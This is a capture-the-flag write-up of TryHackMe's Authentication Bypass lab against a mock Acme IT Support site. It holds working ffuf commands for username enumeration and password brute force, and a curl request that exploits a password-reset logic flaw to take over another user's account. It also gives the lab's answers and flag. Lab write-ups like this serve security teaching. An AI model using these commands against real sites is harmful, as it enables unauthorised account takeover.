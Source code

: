 ```yaml
---
title: Authentication Bypass
description:  Try Hack me Authentication Bypass Walkthrough
author: Prabin Shrestha
date: 2025-10-01 11:33:00 +0800
categories: [Writeup, TryHackMe]
tags: [writeup]
pin: false
math: true
mermaid: true
image:
  path: ../assets/img/favicon/writeup/thm/authentication_bypass/1.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
---
```



# ACME IT Support — Authentication Bypass Walkthrough

## Task 1 — Brief

In this room, we will learn about different ways website authentication methods can be bypassed, defeated or broken. These vulnerabilities can be some of the most critical as it often ends in leaks of customers' personal data.

Start the machine and then proceed to the next task.


---

## Task 2 — Username Enumeration

A helpful exercise to complete when trying to find authentication vulnerabilities is creating a list of valid usernames, which we’ll use later in other tasks.

Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user account if we go to the Acme IT Support website:

`http://MACHINE_IP/customers/signup`

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/2.png){: width="972" height="589" }

If you try entering the username `admin` and fill in the other form fields with fake information, you’ll see we get the error `An account with this username already exists.`

We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the `ffuf` tool below. The `ffuf` tool uses a list of commonly used usernames to check against for any matches.

### Username enumeration with ffuf

```bash
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST \
  -d "username=FUZZ&email=x&password=x&cpassword=x" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://MACHINE_IP/customers/signup -mr "username already exists">valid_username.txt
```

**Explanation:**
- `-w` selects the wordlist file containing usernames to test.
- `-X POST` sets the request method to POST (default is GET).
- `-d` supplies the form data; `FUZZ` marks where the wordlist entry is inserted for the `username` field.
- `-H` adds headers (here we set `Content-Type` so the server parses form data correctly).
- `-u` sets the request URL.
- `-mr` looks for a response body match (the message that indicates a username exists).

> all the valid results will be stored in valid_username.txt

The tool and wordlist come pre-installed on the AttackBox or can be installed locally from https://github.com/ffuf/ffuf.

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/3.png){: width="972" height="589" }

After completion, the tool has identified several usernames that are already in use on the target system

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/4.png){: width="972" height="589" }


### Questions & Answers

**2.1. What is the username starting with `si***`?**

**Answer:** `simon`

**2.2. What is the username starting with `st***`?**

**Answer:** `steve`

**2.3. What is the username starting with `ro****`?**

**Answer:** `Robert`

---

## Task 3 — Brute Force

Using the `valid_usernames.txt` file generated in Task 2, we can attempt a brute force attack on the login page:

`http://MACHINE_IP/customers/login`

> **Note:** If you created your `valid_usernames.txt` by piping the output from `ffuf` directly, you may have formatting problems. Make sure the file contains only the usernames (one per line).

A brute force attack is an automated process that tries a list of commonly used passwords against either a single username or, as in our case, a list of usernames.

When running the command, make sure the terminal is in the same directory as `valid_usernames.txt`.

### Bruteforcing with ffuf (multiple wordlists)

```bash
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
  -X POST -d "username=W1&password=W2" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://machineIP/customers/login -fc 200
```

**Notes:**
- We're using two wordlists so we define our own placeholders: `W1` (usernames) and `W2` (passwords).
- The `-fc 200` flag filters out responses with HTTP 200; successful logins in this application return non-200 (e.g., 302 redirect), so they will be shown.

To focus the attack on a single username (`steve`) use:

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 \
  -X POST -d "username=steve&password=W2" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -u http://machineIP/customers/login -fc 200
```

This found a valid credential pair producing a `302` status code (redirect), indicating successful authentication.


![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/5.png){: width="972" height="589" }

### Question & Answer

**3.1. What is the valid username and password (format: username/password)?**

**Answer:** `steve/thunder`

---

## Task 4 — Logic Flaw

### What is a Logic Flaw?

A logic flaw occurs when the expected logical flow of an application can be bypassed, manipulated, or otherwise tricked into performing actions outside intended authorization checks. Logic flaws can exist anywhere in a web application; here we focus on authentication-related logic flaws.

### Example (mock code)

```php
if (url.substr(0,6) === '/admin') {
    // Code to check user is an admin
} else {
    // View page
}
```

If the code compares strings case-sensitively, requesting `/adMin` may bypass the check and show the page without privilege verification.

### Practical Walkthrough — Reset Password Flow

We examine the Reset Password function:

`http://MACHINE_IP/customers/reset`


### Realistic attack flow for the lab

1. Create an account on the Acme customer section. The email format is `{username}@customer.acmeitsupport.thm`.

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/9.png){: width="972" height="589" }

this is what dashboard looks like once you create account

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/8.png){: width="972" height="589" }

2. Use your created account's `@acmeitsupport.thm` email as the POST `email` in the reset request. This causes a password reset ticket to be created on your account, but targeted at the victim's username.

```bash
curl 'http://10.10.60.101/customers/reset?email=robert@acmeitsupport.thm' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -d 'username=robert&email=abc@customer.acmeitsupport.thm'
```


![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/12.png){: width="972" height="589" }


- Now refresh your account and check support tickets.

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/13.png){: width="972" height="589" }

- Click on the ID

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/14.png){: width="972" height="589" }

- copy that link in new window and you ll be signed in as robert

![Desktop View](../assets/img/favicon/writeup/thm/authentication_bypass/15.png){: width="972" height="589" }

- Go to support ticket and you ll see the flag

### Question & Answer

**4.1. What is the flag from Robert’s support ticket?**

**Answer:** `THM{AUTH_BYPASS_COMPLETE}`

---

